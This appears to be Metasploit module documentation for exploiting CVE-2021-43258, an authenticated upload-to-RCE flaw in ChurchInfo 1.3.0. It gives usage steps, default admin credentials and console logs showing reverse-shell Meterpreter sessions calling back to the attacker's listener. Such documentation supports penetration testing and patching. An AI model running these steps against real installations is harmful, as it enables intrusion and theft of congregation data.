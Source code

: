 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo 1.3.0 software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo 1.3.0 contains functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/
and within the zip file downloaded in the `./Documentation` folder. This is a standard PHP and MySQL website.

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

### Module Use
The following steps outline how to use the module.
1. Install the application and register an account.
1. Create some person entries within the database, validate they populate at the page `/SelectList.php?mode=person`.
1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `username`, and `password` values.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

If exploit was successful, output should be something close to the following:

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.240:4444
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: 3
[+] Uploading exploit via Email temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/FjuIxnXKe.php
[!] Don't forget to clean up artifacts at /churchinfo/tmp_attach/FjuIxnXKe.php
[*] Sending stage (39927 bytes) to 192.168.1.72
[*] Meterpreter session 2 opened (192.168.1.240:4444 -> 192.168.1.72:37250) at 2022-11-12 21:38:30 -0500

meterpreter >getuid

Server username: www-data 
```

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Exploit Subj`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Here's a lovely message`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo 1.3.0
### ChurchInfo v1.3.0 with MySQL 5.7.40 on Ubuntu Linux 18.04.5 LTS
There are several options available. This exploit requires authenticated access to the email application for ChurchInfo. The default username is `admin` and password is `churchinfoadmin` based on the installation documentation. Both `EMAIL_MESG` and `EMAIL_SUBJ` are required to upload the exploit, but do not have any affect on what type of exploit is launched. `TARGETURI` is the location the ChurchInfo application is installed.

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run
                                                 
[*] Started reverse TCP handler on 192.168.1.240:4444    
[*] Gathering PHP session cookie                       
[*] SSL is false, leaving protocol as HTTP           
[+] PHP session cookie is PHPSESSID=19rjcc9tbmvj6tpbl7iql0lm0q;
[*] Attempting login                                  
[+] Location header is /churchinfo//CheckVersion.php
[+] Logged into application as admin                  
[*] Attempting exploit                                  
[*] Navigating to add items to cart                  
[+] Items in Cart: 3                              
[+] Uploading exploit via temp email attachment            
[*] Payload name is 0EXot.php                       
[+] Exploit uploaded to /churchinfo/tmp_attach/0EXot.php
[+] Executing payload with GET request                  
[*] Sending stage (39927 bytes) to 192.168.1.72    
[+] Deleted 0EXot.php                               
[*] Meterpreter session 20 opened (192.168.1.240:4444 -> 192.168.1.72:37656) at 2022-11-18 06:31:30 -0500

meterpreter > getuid                                   
Server username: www-data
```
